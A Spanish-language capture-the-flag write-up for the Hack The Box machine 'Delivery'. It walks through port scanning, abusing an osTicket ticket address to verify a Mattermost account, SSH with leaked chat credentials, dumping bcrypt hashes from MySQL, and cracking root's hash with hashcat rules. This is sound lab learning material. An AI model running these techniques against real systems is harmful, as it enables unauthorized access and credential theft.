


# Delivery

`Delivery` es una máquina Linux de dificultad fácil que cuenta con el sistema de tickets de soporte `osTicket` donde es posible, mediante el uso de una técnica llamada `TicketTrick`, otorgarle a un usuario no autenticado acceso a un correo electrónico temporal de la empresa. Esta "característica" permite el registro en `MatterMost` y la unión al canal interno del equipo. A través de ese canal se revela que los usuarios han estado usando la misma variante de contraseña "PleaseSubscribe!", para el acceso interno.

En el canal también se revelan las credenciales para el usuario de correo que pueden dar el punto de apoyo inicial al sistema. Al enumerar el sistema de archivos, nos encontramos con el archivo de configuración de `Mattermost` que revela las credenciales de la base de datos `MySQL`. Al tener acceso a la base de datos, se puede extraer un hash de contraseña de la tabla Usuarios y descifrarlo utilizando el patrón "PleaseSubscribe!". Después de descifrar el hash, es posible iniciar sesión como usuario root.

<figure><figcaption></figcaption></figure>

## Reconnaissance

Realizaremos un reconocimiento con `Nmap` para ver los puertos que están expuestos en la máquina **`Delivery`**. Este resultado lo almacenaremos en un archivo llamado `allPorts`.

```bash
❯ nmap -p- --open -sS --min-rate 1000 -Pn -n 10.10.10.222 -oG allPorts
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-17 13:32 CET
Nmap scan report for 10.10.10.222
Host is up (0.052s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8065/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 14.01 seconds
```

A través de la herramienta de [`extractPorts`](https://pastebin.com/X6b56TQ8), la utilizaremos para extraer los puertos del archivo que nos generó el primer escaneo a través de `Nmap`. Esta herramienta nos copiará en la clipboard los puertos encontrados.

```bash
❯ extractPorts allPorts

[*] Extracting information...

	[*] IP Address: 10.10.10.222
	[*] Open ports: 22,80,8065

[*] Ports copied to clipboard
```

Lanzaremos scripts de reconocimiento sobre los puertos encontrados y lo exportaremos en formato `oN` y `oX` para posteriormente trabajar con ellos. Verificamos que al parecer se trata de una máquina Ubuntu que dispone del servicio `SSH`, también dispone de una página de `Nginx` en el puerto 80 (HTTP) , un servicio HTTP donde al parecer hay un servicio llamado `Mattermost`.

```bash
❯ nmap -sCV -p22,80,8065 10.10.10.222 -A -oN targeted -oX targetedXML
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-17 13:33 CET
Nmap scan report for 10.10.10.222
Host is up (0.071s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 9c:40:fa:85:9b:01:ac:ac:0e:bc:0c:19:51:8a:ee:27 (RSA)
|   256 5a:0c:c0:3b:9b:76:55:2e:6e:c4:f4:b9:5d:76:17:09 (ECDSA)
|_  256 b7:9d:f7:48:9d:a2:f2:76:30:fd:42:d3:35:3a:80:8c (ED25519)
80/tcp   open  http    nginx 1.14.2
|_http-server-header: nginx/1.14.2
|_http-title: Welcome
8065/tcp open  http    Golang net/http server
|_http-title: Mattermost
| http-robots.txt: 1 disallowed entry 
|_/
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 200 OK
|     Accept-Ranges: bytes
|     Cache-Control: no-cache, max-age=31556926, public
|     Content-Length: 3108
|     Content-Security-Policy: frame-ancestors 'self'; script-src 'self' cdn.rudderlabs.com
|     Content-Type: text/html; charset=utf-8
|     Last-Modified: Fri, 17 Jan 2025 12:26:38 GMT
|     X-Frame-Options: SAMEORIGIN
|     X-Request-Id: wns1zsete3yspkybmn11f4ic3o
|     X-Version-Id: 5.30.0.5.30.1.57fb31b889bf81d99d8af8176d4bbaaa.false
|     Date: Fri, 17 Jan 2025 12:36:42 GMT
|     <!doctype html><html lang="en"><head><meta charset="utf-8"><meta name="viewport" content="width=device-width,initial-scale=1,maximum-scale=1,user-scalable=0"><meta name="robots" content="noindex, nofollow"><meta name="referrer" content="no-referrer"><title>Mattermost</title><meta name="mobile-web-app-capable" content="yes"><meta name="application-name" content="Mattermost"><meta name="format-detection" content="telephone=no"><link re
|   GenericLines, Help, RTSPRequest, SSLSessionReq: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Accept-Ranges: bytes
|     Cache-Control: no-cache, max-age=31556926, public
|     Content-Length: 3108
|     Content-Security-Policy: frame-ancestors 'self'; script-src 'self' cdn.rudderlabs.com
|     Content-Type: text/html; charset=utf-8
|     Last-Modified: Fri, 17 Jan 2025 12:26:38 GMT
|     X-Frame-Options: SAMEORIGIN
|     X-Request-Id: z8g87ys5e7fizkr6phaw8efafa
|     X-Version-Id: 5.30.0.5.30.1.57fb31b889bf81d99d8af8176d4bbaaa.false
|     Date: Fri, 17 Jan 2025 12:36:25 GMT
|     <!doctype html><html lang="en"><head><meta charset="utf-8"><meta name="viewport" content="width=device-width,initial-scale=1,maximum-scale=1,user-scalable=0"><meta name="robots" content="noindex, nofollow"><meta name="referrer" content="no-referrer"><title>Mattermost</title><meta name="mobile-web-app-capable" content="yes"><meta name="application-name" content="Mattermost"><meta name="format-detection" content="telephone=no"><link re
|   HTTPOptions: 
|     HTTP/1.0 405 Method Not Allowed
|     Date: Fri, 17 Jan 2025 12:36:25 GMT
|_    Content-Length: 0
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
...[snip]...
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19, Linux 5.0 - 5.14
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 22/tcp)
HOP RTT      ADDRESS
1   65.00 ms 10.10.16.1
2   32.59 ms 10.10.10.222

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 37.55 seconds
```

Procederemos a transformar el archivo generado `targetedXML` para transformar el `XML` en un archivo `HTML` para posteriormente montar un servidor web y visualizarlo.

```bash
❯ xsltproc targetedXML > index.html

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Accederemos a[ http://localhost](http://localhost) y verificaremos el resultado en un formato más cómodo para su análisis.

<figure><figcaption></figcaption></figure>

## Web Enumeration

Procederemos a realizar una enumeración de la página web, para ello accederemos a http://10.10.10.222.

Haciendo hovering sobre los enlaces de la página, verificamos que nos aparece un subdominio llamado `helpdesk.delivery.htb`.

<figure><figcaption></figcaption></figure>

Añadiremos en nuestro archivo `/etc/hosts` las entradas correspondientes.

```bash
❯ cat /etc/hosts | grep 10.10.10.222
10.10.10.222 delivery.htb helpdesk.delivery.htb
```

Revisaremos las tecnologías que utiliza el sitio web,. Por otro lado, realizaremos una enumeración de directorios sobre el sitio web [http://delivery.htb](http://delivery.htb) en el cual no logramos obtener ningún resultado que nos pueda servir.

```bash
❯ whatweb http://delivery.htb/
http://delivery.htb/ [200 OK] Country[RESERVED][ZZ], Email[jane@untitled.tld], HTML5, HTTPServer[nginx/1.14.2], IP[10.10.10.222], JQuery, Script, Title[Welcome], nginx[1.14.2]

❯ dirsearch -u http://delivery.htb/ 2>/dev/null

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/kali/Desktop/HackTheBox/Linux/Delivery/content/reports/http_delivery.htb/__25-01-17_13-41-56.txt

Target: http://delivery.htb/

[13:41:56] Starting: 
[13:42:17] 301 -  185B  - /assets  ->  http://delivery.htb/assets/
[13:42:17] 403 -  571B  - /assets/
[13:42:29] 301 -  185B  - /error  ->  http://delivery.htb/error/
[13:42:29] 200 -    1KB - /error/
[13:42:35] 301 -  185B  - /images  ->  http://delivery.htb/images/
[13:42:35] 403 -  571B  - /images/
[13:42:54] 200 -  648B  - /README.MD

Task Completed
```

Por otro lado, realizamos el mismo proceso anterior, esta vez sobre el subdominio encontrado. Al realizar una enumeración de directorios y páginas del subdominio encontrado, verificamos que logramos ver varias páginas interesantes.

```bash
❯ whatweb http://helpdesk.delivery.htb/
http://helpdesk.delivery.htb/ [200 OK] Bootstrap, Content-Language[en-US], Cookies[OSTSESSID], Country[RESERVED][ZZ], HTML5, HTTPServer[nginx/1.14.2], HttpOnly[OSTSESSID], IP[10.10.10.222], JQuery[3.5.1], PoweredBy[osTicket], Script[text/javascript], Title[delivery], UncommonHeaders[content-security-policy], X-UA-Compatible[IE=edge], nginx[1.14.2]

❯ dirsearch -u http://helpdesk.delivery.htb/ 2>/dev/null

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/kali/Desktop/HackTheBox/Linux/Delivery/content/reports/http_helpdesk.delivery.htb/__25-01-17_13-43-32.txt

Target: http://helpdesk.delivery.htb/

[13:43:32] Starting: 
[13:43:33] 301 -  185B  - /js  ->  http://helpdesk.delivery.htb/js/
[13:43:40] 200 -   36KB - /account.php
[13:43:42] 403 -  571B  - /admin/includes/configure.php~
[13:43:49] 403 -  571B  - /administrator/includes/
[13:43:51] 400 -   17B  - /ajax.php
[13:43:51] 301 -  185B  - /api  ->  http://helpdesk.delivery.htb/api/
[13:43:51] 302 -    0B  - /api/  ->  ../
[13:43:52] 301 -  185B  - /apps  ->  http://helpdesk.delivery.htb/apps/
[13:43:52] 403 -  571B  - /apps/
[13:43:52] 403 -  571B  - /assets/
[13:43:53] 301 -  185B  - /assets  ->  http://helpdesk.delivery.htb/assets/
[13:44:01] 301 -  185B  - /css  ->  http://helpdesk.delivery.htb/css/
[13:44:06] 404 -   23B  - /file.php
[13:44:10] 301 -  185B  - /images  ->  http://helpdesk.delivery.htb/images/
...[snip]...
Task Completed
```

Probamos de acceder a http://helpdesk.delivery.htb para verificar de qué trata el sitio web. Al acceder, parece ser una página de ticketing de un soporte técnico.

<figure><figcaption></figcaption></figure>

Al intentar registrarnos en el sitio web, vemos que nos aparece un mensaje indicando que debemos confirmar nuestro correo electrónico para poder acceder al sistema.  No no podemos confirmar el registro, dado que en HTB normalmente no hay comunicación con servidores de correo externos, quizás de manera interna de la propia experiencia de la máquina si, pero este no era el caso.

<figure><figcaption></figcaption></figure>

Al intentar acceder con el usuario que nos hemos intentado registrar, verificamos que nos aparecía el mensaje indicando que debemos confirmar nuestra cuenta para acceder.

<figure><figcaption></figcaption></figure>

Por otro lado, probamos de acceder a [http://delivery.htb:8065](http://delivery.htb:8065) y verificamos que llegamos al panel de inicio de sesión de `Mattermost`. Verificamos que la plataforma requiere de credenciales de acceso, también dispone de una opción para crear nuestra usuario.


**Mattermost** es una **herramienta colaborativa** para trabajar con un equipo de trabajo de manera ágil y efectiva. Muchas personas la comparan con **Slack**, dado que sirve para hablar por chat y enviar archivos.


<figure><figcaption></figcaption></figure>

Probaremos de registrarnos con un usuario inventado en el portal de `Mattermost` para ver si logramos acceder a la plataforma.

<figure><figcaption></figcaption></figure>

Comprobamos nuevamente que nos requiere verificar nuestro correo electrónico. Lamentablemente no disponemos del medio para realizarlo. Buscaremos otras maneras de acceder a este u otro servicio.

<figure><figcaption></figcaption></figure>

### Abusing Support Ticket System

Volviendo a la página web [http://helpdesk.delivery.htb](http://helpdesk.delivery.htb) verificamos que podemos crear un nuevo ticket para el equipo de soport técnico Helpdesk. Probaremos de crear un nuevo ticket de prueba para verificar que es lo que realiza.

<figure><figcaption></figcaption></figure>

Comprobamos que al parecer el ticket de soporte técnico ha sido crado correctamente. Nos indica que modemos comprobar el estado de nuestro ticketa través de un ID, y que si queremos más información sobre el estado de nuestro ticket, que nos pusieramos en contacto con un correo que tiene de nombre el ID del ticket con el dominiio `delivery.htb`.

<figure><figcaption></figcaption></figure>

Revisamos el apartado de `Check Ticket Status` de acceder con el correo que hemos indicado al crear el ticket y con el ID del ticket.

<figure><figcaption></figcaption></figure>

Verificamos que podemos observer el estado del ticket a través de esa opción.

<figure><figcaption></figcaption></figure>

Por lo tanto, dado que no disponemos de un correo válido para confirmar nuestro correo electrónico e ambas plataformas, lo que probamos es de registrarnos en la plataforma de `Mattermost` con el correo electrónico que nos proporcionaron desde el sistema de tickets en el cual nos indicaron que para saber más información sobre el ticket, que les mandasemos un correo electrónico.

<figure><figcaption></figcaption></figure>

Verificamos que nos vuelven a indicarnos de verificar nuestro correo electrónico, este enlace de verificación se debería haber enviado a `IDticket@delivery.htb` en donde el `IDticket` es el que nos generó al crear nuestro ticket en la plataforma

<figure><figcaption></figcaption></figure>

Verificamos si volvemos a comprobar el estado de nuestro ticket, hemos recibido el correo de verificación para verificar el usuario que hemos registrado en `Mattermost`. Esto se ha logrado utilizando el correo que nos han dado de prueba, al indicar que nos hemos querido registrar con ese correo, ese correo nos ha llegado a nosotros a través del sistema de tickets.

<figure><figcaption></figcaption></figure>

### Acces to Mattermost

Comprobamos que hemos verificado correctamente el usuario que hemos intentado registrar, intentaremos acceder con ese usuario para revisar si disponemos del acceso.

<figure><figcaption></figcaption></figure>

Al intentar acceder, comprobamos que hemos podido acceder a la plataforma de `Mattermost`. Al acceder, nos proporciona la opción para acceder a un Team llamado `internal`.

<figure><figcaption></figcaption></figure>

## Initial Access

### Information Leakage

Al acceder al Team llamado `internal`, verificamos una conversación entre el usuario `root` y los desarrolladores. En el chat aparecen las credenciales de acceso del usuario `maildeliverer:Youve_G0t_Mail!`

Además, les indica que necesitan crear un programa para que dejen de reutilizar contraseñas, en especial aquellas con la variante `PleaseSubscribe!`

El usuario `root` indica que esa contraseña no se encuentra en el diccionario `rockyou.txt`, pero los atacantes podrían emplear métodos para crear variantes sobre la contraseña y crackearla sin problemas. Esto nos puede servir de pista para acceder con el usuario `root` si dispone de una variante de esa contraseña.

<figure><figcaption></figcaption></figure>

Accederemos a través del servicio `SSH` con el usuario `maildeliverer` y las credenciales encontradas en el `Mattermost`. Comprobamos que podemos verificar la flag de **user.txt`.`**

```bash
❯ ssh maildeliverer@delivery.htb
The authenticity of host 'delivery.htb (10.10.10.222)' can't be established.
ED25519 key fingerprint is SHA256:AGdhHnQ749stJakbrtXVi48e6KTkaMj/+QNYMW+tyj8.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes

maildeliverer@Delivery:~$ ls
user.txt
maildeliverer@Delivery:~$ cat user.txt
117f5f226***********************
```

## Privilege Escalation

### Database Enumeration - MySQL

Verificamos que en el directorio `/opt` disponemos de la carpeta de la instalación de`Mattermost`.

Enumerando el directorio, verificamos que disponemos de un archivo de configuración llamado `config.json.`

```bash
maildeliverer@Delivery:~$ ls -l /opt/
total 4
drwxrwxr-x 12 mattermost mattermost 4096 Jul 14  2021 mattermost
maildeliverer@Delivery:~$ ls -l /opt/mattermost/
total 280
drwxrwxr-x 2 mattermost mattermost   4096 Dec 18  2020 bin
drwxrwxr-x 7 mattermost mattermost   4096 Dec 26  2020 client
drwxrwxr-x 2 mattermost mattermost   4096 Dec 26  2020 config
drwxrwxr-x 3 mattermost mattermost   4096 Jan 17 08:03 data
-rw-rw-r-- 1 mattermost mattermost   2052 Dec 18  2020 ENTERPRISE-EDITION-LICENSE.txt
drwxrwxr-x 2 mattermost mattermost   4096 Dec 18  2020 fonts
drwxrwxr-x 2 mattermost mattermost   4096 Dec 18  2020 i18n
drwxrwxr-x 2 mattermost mattermost   4096 Dec 26  2020 logs
-rw-rw-r-- 1 mattermost mattermost    898 Dec 18  2020 manifest.txt
-rw-rw-r-- 1 mattermost mattermost 229264 Dec 18  2020 NOTICE.txt
drwxr--r-- 5 mattermost mattermost   4096 Jan 17 08:08 plugins
drwxrwxr-x 2 mattermost mattermost   4096 Dec 18  2020 prepackaged_plugins
-rw-rw-r-- 1 mattermost mattermost   6262 Dec 18  2020 README.md
drwxrwxr-x 2 mattermost mattermost   4096 Dec 18  2020 templates
maildeliverer@Delivery:~$ ls -l /opt/mattermost/config/
total 28
-rw-rw-r-- 1 mattermost mattermost   922 Dec 18  2020 cloud_defaults.json
-rw-rw-r-- 1 mattermost mattermost 18774 Jan 17 08:03 config.json
-rw-rw-r-- 1 mattermost mattermost   243 Dec 18  2020 README.md
```

Al revisar la configuración del archivo, verificamos que encontramos las credenciales de acceso al MySQL. Las credenciales aparecen en texto plano: `mmuser:Crack_The_MM_Admin_PW`

```bash
maildeliverer@Delivery:~$ cat /opt/mattermost/config/config.json 
{
..[snip]...
    "SqlSettings": {
        "DriverName": "mysql",
        "DataSource": "mmuser:Crack_The_MM_Admin_PW@tcp(127.0.0.1:3306)/mattermost?charset=utf8mb4,utf8\u0026readTimeout=30s\u0026writeTimeout=30s",
        "DataSourceReplicas": [],
        "DataSourceSearchReplicas": [],
        "MaxIdleConns": 20,
        "ConnMaxLifetimeMilliseconds": 3600000,
        "MaxOpenConns": 300,
        "Trace": false,
        "AtRestEncryptKey": "n5uax3d4f919obtsp1pw1k5xetq1enez",
        "QueryTimeout": 30,
        "DisableDatabaseSearch": false
    },
...[snip]...
```

Intentaremos acceder al servicio de `MySQL` con las credenciales obtenidas. Verificamos que podemos acceder y enumerando las bases de datos, nos encontramos con una BBDD de `Mattermost`.

```bash
maildeliverer@Delivery:~$ mysql -u mmuser -p
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 82
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> SHOW DATABASES;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mattermost         |
+--------------------+
2 rows in set (0.001 sec)
```

Al listar las tablas de la BBDD mencionada, comprobamos que existe una tabla llamada `users` la cual podría contener información interesante, credenciales, etc.

<pre class="language-bash"><code class="lang-bash">MariaDB [(none)]> SHOW TABLES FROM mattermost;
+------------------------+
| Tables_in_mattermost   |
+------------------------+
<strong>...[snip]...
</strong>| UserAccessTokens       |
| UserGroups             |
| UserTermsOfService     |
| Users                  |
+------------------------+
46 rows in set (0.001 sec)
</code></pre>

Al enumerar los datos de la tabla `users`, nos encontramos con varios usuarios de la plataforma de `Mattermost`, entre los cuales aparece el hash del usuario `root`.

```bash
MariaDB [(none)]> USE mattermost;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed

MariaDB [mattermost]> SELECT * FROM Users;
+----------------------------+---------------+---------------+----------+----------------------------------+--------------------------------------------------------------+----------+-------------+-------------------------+---------------+----------+--------------------+----------+----------+--------------------------+----------------+-------+------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------+-------------------+----------------+--------+------------------------------------------------------------------------------------------+-----------+-----------+
| Id                         | CreateAt      | UpdateAt      | DeleteAt | Username                         | Password                                                     | AuthData | AuthService | Email                   | EmailVerified | Nickname | FirstName          | LastName | Position | Roles                    | AllowMarketing | Props | NotifyProps                                                                                                                                                                  | LastPasswordUpdate | LastPictureUpdate | FailedAttempts | Locale | Timezone                                                                                 | MfaActive | MfaSecret |
+----------------------------+---------------+---------------+----------+----------------------------------+--------------------------------------------------------------+----------+-------------+-------------------------+---------------+----------+--------------------+----------+----------+--------------------------+----------------+-------+------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------+-------------------+----------------+--------+------------------------------------------------------------------------------------------+-----------+-----------+
| 64nq8nue7pyhpgwm99a949mwya | 1608992663714 | 1608992663731 |        0 | surveybot                        |                                                              | NULL     |             | surveybot@localhost     |             0 |          | Surveybot          |          |          | system_user              |              0 | {}    | {"channel":"true","comments":"never","desktop":"mention","desktop_sound":"true","email":"true","first_name":"false","mention_keys":"","push":"mention","push_status":"away"} |      1608992663714 |     1608992663731 |              0 | en     | {"automaticTimezone":"","manualTimezone":"","useAutomaticTimezone":"true"}               |         0 |           |
| 6akd5cxuhfgrbny81nj55au4za | 1609844799823 | 1609844799823 |        0 | c3ecacacc7b94f909d04dbfd308a9b93 | $2a$10$u5815SIBe2Fq1FZlv9S8I.VjU3zeSPBrIEg9wvpiLaS7ImuiItEiK | NULL     |             | 4120849@delivery.htb    |             0 |          |                    |          |          | system_user              |              0 | {}    | {"channel":"true","comments":"never","desktop":"mention","desktop_sound":"true","email":"true","first_name":"false","mention_keys":"","push":"mention","push_status":"away"} |      1609844799823 |                 0 |              0 | en     | {"automaticTimezone":"","manualTimezone":"","useAutomaticTimezone":"true"}               |         0 |           |
| 6wkx1ggn63r7f8q1hpzp7t4iiy | 1609844806814 | 1609844806814 |        0 | 5b785171bfb34762a933e127630c4860 | $2a$10$3m0quqyvCE8Z/R1gFcCOWO6tEj6FtqtBn8fRAXQXmaKmg.HDGpS/G | NULL     |             | 7466068@delivery.htb    |             0 |          |                    |          |          | system_user              |              0 | {}    | {"channel":"true","comments":"never","desktop":"mention","desktop_sound":"true","email":"true","first_name":"false","mention_keys":"","push":"mention","push_status":"away"} |      1609844806814 |                 0 |              0 | en     | {"automaticTimezone":"","manualTimezone":"","useAutomaticTimezone":"true"}               |         0 |           |
| cj8m1hn78fbrxbupgmk3s77s6c | 1737119334484 | 1737119438613 |        0 | gzzcoo                           | $2a$10$12WXI457/dONWeqbvwAbdeyWP6MYKeofS/SFEfPYIaF13/BXfbvw. | NULL     |             | 3523891@delivery.htb    |             1 |          |                    |          |          | system_user              |              1 | {}    | {"channel":"true","comments":"never","desktop":"mention","desktop_sound":"true","email":"true","first_name":"false","mention_keys":"","push":"mention","push_status":"away"} |      1737119334484 |                 0 |              0 | en     | {"automaticTimezone":"Europe/Madrid","manualTimezone":"","useAutomaticTimezone":"true"}  |         0 |           |
| dijg7mcf4tf3xrgxi5ntqdefma | 1608992692294 | 1609157893370 |        0 | root                             | $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO | NULL     |             | root@delivery.htb       |             1 |          |                    |          |          | system_admin system_user |              1 | {}    | {"channel":"true","comments":"never","desktop":"mention","desktop_sound":"true","email":"true","first_name":"false","mention_keys":"","push":"mention","push_status":"away"} |      1609157893370 |                 0 |              0 | en     | {"automaticTimezone":"Africa/Abidjan","manualTimezone":"","useAutomaticTimezone":"true"} |         0 |           |
| hatotzdacb8mbe95hm4ei8i7ny | 1609844805777 | 1609844805777 |        0 | ff0a21fc6fc2488195e16ea854c963ee | $2a$10$RnJsISTLc9W3iUcUggl1KOG9vqADED24CQcQ8zvUm1Ir9pxS.Pduq | NULL     |             | 9122359@delivery.htb    |             0 |          |                    |          |          | system_user              |              0 | {}    | {"channel":"true","comments":"never","desktop":"mention","desktop_sound":"true","email":"true","first_name":"false","mention_keys":"","push":"mention","push_status":"away"} |      1609844805777 |                 0 |              0 | en     | {"automaticTimezone":"","manualTimezone":"","useAutomaticTimezone":"true"}               |         0 |           |
| jing8rk6mjdbudcidw6wz94rdy | 1608992663664 | 1608992663664 |        0 | channelexport                    |                                                              | NULL     |             | channelexport@localhost |             0 |          | Channel Export Bot |          |          | system_user              |              0 | {}    | {"channel":"true","comments":"never","desktop":"mention","desktop_sound":"true","email":"true","first_name":"false","mention_keys":"","push":"mention","push_status":"away"} |      1608992663664 |                 0 |              0 | en     | {"automaticTimezone":"","manualTimezone":"","useAutomaticTimezone":"true"}               |         0 |           |
| n9magehhzincig4mm97xyft9sc | 1609844789048 | 1609844800818 |        0 | 9ecfb4be145d47fda0724f697f35ffaf | $2a$10$s.cLPSjAVgawGOJwB7vrqenPg2lrDtOECRtjwWahOzHfq1CoFyFqm | NULL     |             | 5056505@delivery.htb    |             1 |          |                    |          |          | system_user              |              0 | {}    | {"channel":"true","comments":"never","desktop":"mention","desktop_sound":"true","email":"true","first_name":"false","mention_keys":"","push":"mention","push_status":"away"} |      1609844789048 |                 0 |              0 | en     | {"automaticTimezone":"","manualTimezone":"","useAutomaticTimezone":"true"}               |         0 |           |
+----------------------------+---------------+---------------+----------+----------------------------------+--------------------------------------------------------------+----------+-------------+-------------------------+---------------+----------+--------------------+----------+----------+--------------------------+----------------+-------+------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------+-------------------+----------------+--------+------------------------------------------------------------------------------------------+-----------+-----------+
8 rows in set (0.000 sec)
```

### Cracking hashes and playing with hashcat rules in order to create passwords

Recordando lo que indicaba el usuario `root` en el chat interno de `Mattermost`, es posible que el usuario `root` disponga de una contraseña con una variante a `PleaseSubscribe!`

Teniendo el hash del usuario `root` y la posible contraseña, lo que reaizaremos es crear unas reglas con `hashcat` para crear variantes de la contraseña e intentar crackearla. Verificamos que hemos podido crackear el hash y obtener la contraseña que en un principio con el `rockyou.txt` no lo hubieramos podido crackear.

```bash
❯ catnp hashes
root:$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO

❯ catnp password
PleaseSubscribe!

❯ hashcat -m 3200 hashes password --user -r /usr/share/hashcat/rules/best64.rule
hashcat (v6.2.6) starting
       
...[snip]...
$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO:PleaseSubscribe!21
...[snip]...
```

Intentaremos acceder cambiando nuestro usuario actual por el de `root` con las credenciales encontradas y verificamos que logramos tener el acceso y visualizar la flag de **root.txt**.

```bash
maildeliverer@Delivery:~$ su root
Password: 
root@Delivery:/home/maildeliverer# cat /root/root.txt 
9479a4a3eb4b7*****************
```
